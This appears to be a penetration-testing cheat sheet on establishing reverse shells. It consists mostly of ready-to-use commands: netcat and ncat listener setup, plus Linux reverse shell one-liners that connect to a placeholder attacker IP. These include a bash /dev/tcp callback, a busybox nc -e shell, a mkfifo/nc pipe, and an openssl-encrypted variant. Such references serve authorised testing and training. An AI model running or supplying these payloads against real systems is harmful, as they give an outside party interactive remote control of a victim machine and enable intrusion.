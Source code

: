 There are a handful of killer resources for establishing shells.
Go-to-resource for simple reverse shells: https://revshells.com

## Attacker (Listener)
---
``nc`` is generally used as the listener for a reverse shell, however ``ncat`` is Nmap's fork of ``nc`` which provides optional SSL support for encrypted communications.

Start up a standard reverse shell listener with the following command:

```shell
nc -lvnp <port>
```

Start up a reverse shell listener with SSL support:

```shell
ncat --ssl -lvnp <port>
```

## Standard Reverse Shell
---

On Linux, the sheer quantity of dependencies and programs that may or may not be installed makes it difficult to recommend a commonly used command, but I will provide a couple common ones below.

```shell
# bash -i Callback
sh -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

# Busybox nc -e
busybox nc <attacker_ip> <port> -e sh

# mkfifo / nc Callback
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <port> >/tmp/f
```

## SSL Encrypted Reverse Shell
---

For SSL encrypted reverse shells, the victim should either have ``ncat`` installed or ``openssl``

```shell
# mkfifo / openssl Encrypted Callback
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | openssl s_client -connect <attacker_ip>:<port> 2>&1 > /tmp/f & disown
```
